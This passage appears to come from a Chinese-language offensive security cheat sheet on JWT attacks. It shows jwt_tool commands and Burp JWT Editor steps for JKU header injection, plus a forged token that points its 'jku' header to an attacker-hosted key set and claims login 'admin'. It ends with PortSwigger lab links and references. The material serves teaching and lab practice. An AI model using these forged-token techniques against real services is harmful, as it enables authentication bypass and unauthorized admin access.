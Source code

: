 **利用**：

* 使用[ticarpi/jwt_tool]

  ```ps1
  python3 jwt_tool.py JWT_HERE -X s
  python3 jwt_tool.py JWT_HERE -X s -ju http://example.com/jwks.json
  ```

* 使用[portswigger/JWT Editor](#)

  1. 生成新的RSA密钥并托管它
  2. 编辑JWT的数据
  3. 用您的JWKS中的`kid`头替换`kid`头
  4. 添加`jku`头并对JWT进行签名（应选中`Don't modify header`选项）

**解构**：

```json
{"typ":"JWT","alg":"RS256", "jku":"[https://example.com/jwks.json](https://example.com/jwks.json)", "kid":"id_of_jwks"}.
{"login":"admin"}.
[使用新私钥签名；导出公钥]
```

## 实验室（Labs）

- 通过未经验证的签名绕过JWT认证：[链接](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature)
- 通过有缺陷的签名验证绕过JWT认证：[链接](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)
- 通过弱签名密钥绕过JWT认证：[链接](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)
- 通过JWK头部注入绕过JWT认证：[链接](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)
- 通过JKU头部注入绕过JWT认证：[链接](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)
- 通过KID头部路径遍历绕过JWT认证：[链接](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)

## 参考资料（References）

- 五个简单步骤理解JSON Web Token：[链接](https://medium.com/cyberverse/five-easy-steps-to-understand-json-web-tokens-jwt-7665d2ddf4d5)
- 攻击JWT认证 - Sjoerd Langkemper, 2016年9月28日：[链接](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)
- Club EH RM 05 - JSON Web Token利用入门 - Nishacid：[链接](https://www.youtube.com/watch?v=d7wmUz57Nlg)
- JSON Web Token库中的关键漏洞 - Tim McLean, 2015年3月31日：[链接](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
- 黑客攻击JSON Web Token (JWT) - Hate_401：[链接](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)
- 从零到英雄无难度地黑客攻击JSON Web Tokens - Websecurify博客：[链接](https://web.archive.org/web/20220305042224/https://blog.websecurify.com/2017/02/hacking-json-web-tokens.html)
- 黑客攻击JSON Web Tokens - medium.com, 2019年10月：[链接](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
- HITBGSEC CTF 2017 - Pasty (Web) - amon (j.heng)：[链接](https://nandynarwhals.org/hitbgsec2017-pasty/)
- 如何通过时序攻击黑入弱JWT实现 - Tamas Polgar, 2017年1月7日：[链接](https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9)
- Auth0身份验证API中JSON Web Token验证绕过 - Ben Knight高级安全顾问, 2020年4月16日：[链接](https://insomniasec.com/blog/auth0-jwt-validation-bypass)
- JSON Web Token漏洞 - 0xn3va：[链接](https://0xn3va.gitbook.io/cheat-sheets/web-application/json-web-token-vulnerabilities)
- JWT黑客入门101 - TrustFoundry - Tyler Rosonke, 2017年12月8日：[链接](https://trustfoundry.net/jwt-hacking-101/)
- 学习如何使用JSON Web Tokens (JWT)进行认证 - @dwylhq：[链接](https://github.com/dwyl/learn-json-web-tokens)